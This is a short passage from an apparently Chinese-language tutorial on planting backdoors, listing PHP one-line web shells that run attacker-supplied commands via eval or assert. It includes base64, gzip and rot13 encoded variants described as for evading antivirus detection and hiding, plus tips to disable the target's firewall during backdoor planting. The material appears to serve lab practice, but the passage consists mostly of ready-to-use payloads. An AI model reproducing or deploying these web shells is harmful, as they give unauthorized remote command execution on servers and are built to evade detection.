      ![恶意PHP注入_4](./痕迹清除/恶意PHP注入_4.png)

- **指令解析**

  1. 最常见的一句话木马：eval_r($_POST[cmd]);

     ```
     为了达到免杀及隐藏效果的加密代码：eval_r(base64_decode('ZXZhbCgkX1BPU1RbJ2NtZCddKTs='));
     其它高级变种：
     eval_r(gzinflate(base64_decode('Sy1LzNFQiQ/wDw6JVk/OTVGP1bQGAA==')));
     eval_r(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));
     eval_r(gzdecode(base64_decode('H4sIAAAAAAAAA0stS8zRUIkP8A8OiVZPzk1Rj9W0BgA5YQfAFAAAAA==')));
     eval_r(str_rot13('riny($_CBFG[pzq]);'));
     ```

  2. 使用assert 函数类型的一句话木马及其变种：assert($_POST[cmd]);

     ```
     call_user_func('assert',$_POST[cmd]);
     call_user_func($_GET[a],$_REQUEST[cmd]);
     $_GET[a]($_REQUEST[cmd]);
     ```

### 5. Tips

1. 为避免不必要的错误，靶机需要关闭防火墙

2. 进行后门植入时，靶机应保持在线状态
